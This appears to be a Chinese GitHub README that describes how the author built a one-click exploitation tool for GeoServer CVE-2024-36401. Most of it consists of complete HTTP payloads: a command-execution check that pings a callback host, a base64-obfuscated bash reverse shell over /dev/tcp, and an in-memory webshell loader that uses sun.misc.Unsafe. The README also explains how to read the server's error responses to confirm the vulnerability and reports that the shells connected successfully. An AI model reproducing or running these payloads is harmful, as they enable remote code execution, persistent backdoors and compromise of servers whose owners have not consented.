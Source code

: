 # geoserver-
geoserver CVE-2024-36401 一键漏洞利用工具

原本没打算写的，主要是想着直接去搜一下工具，直接用着就OK了
找到一个geoserver CVE-2024-36401漏洞利用工具
GeoServer 综合漏洞扫描工具V1.2 发布！

![image](https://github.com/MInggongK/geoserver-/blob/main/dsfdsf.png)

但是实际使用下来感觉到这个工具有点点拉跨，稍微一点点吐槽哈，号称是go语言写的，速度极快，主要表现是两点
1、闪退，不明原因的闪退，检测都要闪退
2、使用yakit漏洞是存在的，但是他这个工具不存在，就没明白怎么回事，估计是他的判断逻辑上出了问题

那么就想着能不能自己写一个试试
但是发现这个漏洞实际写下来，也没那么简单
简单说一下编写思路吧

1，默认payload:

POST /geoserver/wfs HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Host: xxxx
Accept-Language: en-US;q=0.9,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
xmlns:topp='http://www.openplans.org/topp'
xmlns:fes='http://www.opengis.net/fes/2.0'
xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'ping wsn9.callback.red')</wfs:valueReference>
</wfs:GetPropertyValue>

那么注意这里： <wfs:Query typeNames='sf:archsites'/>
这个地方，如果你需要采取正则的方式去拿到，这个是sf:archsites网站的一个基本标识，你需要先拿到他的
<wfs:ReturnFeatureType>(.*?)</wfs:ReturnFeatureType>信息，然后你可以采取拼接的方式
判断漏洞的时候
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'ping wsn9.callback.red')</wfs:valueReference>
  这个地方，其实都不用去查找dns记录
  简单的逻辑就是判断是否存在异常的类
  如java.lang.ClassCastException
当然，这只是判断逻辑
这个回显本来就是400，这个地方容易踩坑，你需要判断错误页面后，进行数据查找

首先你需要请求一个
<wfs:ListStoredQueries service='WFS'\n" +
 " version='2.0.0'\n" +
 " xmlns:wfs='http://www.opengis.net/wfs/2.0'/>
 这个信息代表了你可以拿到他的<wfs:ReturnFeatureType>(.*?)</wfs:ReturnFeatureType>
 然后直接赋值给文本，然后再调一个函数方法，把文本的截取的信息，拼接到参数的<wfs:Query typeNames='sf:archsites'/>这里
 这条就会对判断的逻辑相对精准，检测类就这么写就可以了
 如果你只是一直使用 <wfs:Query typeNames='sf:archsites'/>，那么误判的几率很高，会提示找不到这个sf:archsites

 反弹类
我们看看反弹的payload:

POST /geoserver/wfs HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: JSESSIONID=5D030E92A0AFCC3B5006597E6524FD8D
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: application/xml
Content-Length: 438

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}')</wfs:valueReference>
</wfs:GetPropertyValue>

我们注意这里：
<wfs:Query typeNames='sf:archsites'/>
同样，先要正则取值然后拼接给他
然后直接请求
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvOTk5OSAwPiYx这里是加密过的base64
编写的时候，就把用户输入的bash -i >& /dev/tcp/127.0.0.1/9999 0>&1，转换成base64就可以了
然后发请求，同样，去找关键的异常类，判断逻辑即可

内存马注入类
这个地方
POST /geoserver/wfs HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Host: xxx
Accept-Language: en-US;q=0.9,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 20383

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'
var str="";
var bt;
try {
    bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
} catch (e) {
    bt = java.util.Base64.getDecoder().decode(str);
}
var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
unsafe = theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bt, null).newInstance();
')</wfs:valueReference>
</wfs:GetPropertyValue>

这个地方还是有  <wfs:Query typeNames='sf:archsites'/>，老规矩，先取值
在star这里，放入你生成的base64的内存马加密代码
然后判断逻辑即可

容易踩坑的点
1、  <wfs:Query typeNames='sf:archsites'/>重复利用，误判几率98%，报错如下：
https://geoserver.epic.blue/geoserver/schemas/ows/1.1.0/owsAll.xsd">
<ows:Exception exceptionCode="InvalidParameterValue" locator="typeName">
<ows:ExceptionText>Could not locate {http://www.openplans.org/spearfish}archsites in catalog.<

存在漏洞的点：
<ows:Exception exceptionCode="NoApplicableCode">
<ows:ExceptionText>java.lang.ClassCastException: class java.lang.ProcessImpl cannot be cast to class org.opengis.feature.type.AttributeDescriptor (java.lang.ProcessImpl is in module java.base of loader &amp;apos;bootstrap&amp;apos;; org.opengis.feature.type.AttributeDescriptor is in unnamed module of loader org.apache.catalina.loader.ParallelWebappClassLoader @4b9df8a)
class java.lang.ProcessImpl cannot be cast to class org.opengis.feature.type.AttributeDescriptor (java.lang.ProcessImpl is in module java.base of loader &amp;apos;bootstrap&amp;apos;; org.opengis.feature.type.AttributeDescriptor is in unnamed module of loader org.apache.catalina.loader.ParallelWebappClassLoader @4b9df8a)</ows:ExceptionText>
</ows:Exception>

简单来讲存在漏洞就是java.lang.ClassCastException
误判就是Could not locate {http://www.openplans.org/spearfish}archsites in catalog

2、判断方式：
抓取调用的wfs:ReturnFeatureType>，赋给文本-文本调用函数方法，请求，拼接在请求，判断回显的异常
文本调用函数这里，需要提前给值，这样防止出现空指针异常，请求前拼接，判断回显的异常，是异常内进行判断

最终我们实现了这个漏洞利用工具的编写

![image](https://github.com/MInggongK/geoserver-/blob/main/dfdsf.png)

我们来测试一下漏洞

![image](https://github.com/MInggongK/geoserver-/blob/main/dsfsdfsd.png)

我们检测到了漏洞，拿到了端点，反弹shell也成功了

接下来我们来试试注入内存马

![image](https://github.com/MInggongK/geoserver-/blob/main/gfdgfdg.png)

显示是成功注入内存马，我们来连接看看是否成功

![image](https://github.com/MInggongK/geoserver-/blob/main/fdgdgds.png)

是可以连接的

![image](https://github.com/MInggongK/geoserver-/blob/main/dgdsfdsf1.png)

















 
            

  

